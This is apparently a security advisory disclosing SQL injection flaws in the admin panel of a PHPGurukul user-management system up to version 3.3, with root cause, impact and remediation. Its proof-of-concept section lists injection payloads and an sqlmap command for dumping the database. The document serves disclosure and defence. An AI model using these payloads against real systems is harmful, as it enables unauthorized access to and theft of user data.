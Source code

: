 # 📌 SQL Injection via `searchkey` POST Parameter in `search-result.php` in User Registration & Login and User Management System With Admin Panel ≤ v3.3

---

## 👨‍💻 **BUG Author**:
**4m3rr0r**

---

## 📦 **Product Information**

- **Vendor Homepage**: [https://phpgurukul.com](https://phpgurukul.com)
- **Software Link**: [User Registration & Login and User Management System With Admin Panel](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
- **Affected Version**: <= 3.3
- **Product Name**: User Registration & Login and User Management System With Admin Panel

---

## 🛠 **Vulnerability Details**

- **Vulnerability Type**: SQL Injection (CWE-89)
- **Affected Files**: 
  - `admin/user-profile.php` (`GET` parameter `uid`)
  - `admin/manage-users.php` (`GET` parameter `id`)
  - `admin/search-result.php` (`POST` parameter `searchkey`)
- **Authentication Required**: ✅ Yes (Admin login)
- **Exploitability**: High

---

## 🧨 **Vulnerability Type**
SQL Injection (CWE-89) - improper neutralization of special elements used in an SQL command.

---

## 🧬 **Root Cause**

The application directly injects unsanitized user inputs (`uid`, `id`, `searchkey`) into SQL queries without using prepared statements or input validation.

---

## ⚠️ **Impact**

- Database enumeration
- User data leakage (emails, phone numbers, names)
- Unauthorized data access
- Full database dump possible

---

## 📋 **Description**

The product contains multiple SQL Injection vulnerabilities in its admin panel. A logged-in administrator can abuse vulnerable endpoints to manipulate backend SQL queries, bypass intended controls, and exfiltrate data.

---

## 🔬 **Proof of Concept**

### Vulnerable Endpoints

```http
POST /loginsystem/admin/search-result.php (searchkey=test)
```

### Example Payloads

- `' OR 1=1-- -`
- `' AND SLEEP(5)-- -`
- `' UNION SELECT NULL, CONCAT(user(), 0x3a, database()), NULL-- -`

### sqlmap PoC

```bash


sqlmap -u "http://192.168.16.109/loginsystem/admin/search-result.php" --data="searchkey=test" --cookie="PHPSESSID=your_session" --risk=3 --level=5 --batch --dbs
```

![sqlmap](./Images/2025-07-11_01-50.png)



---

## 🛡 **Suggested Remediation**

- Use prepared statements (parameterized queries)
- Validate and sanitize all inputs (GET and POST)
- Implement server-side input validation logic

---

## 🔐 **Security Recommendations**

- Enforce least privilege access to DB user accounts
- Log and monitor admin user activities
- Apply input validation and output encoding
- Regular security audits of PHP code

---

## 📚 **References**

- [https://owasp.org/www-community/attacks/SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

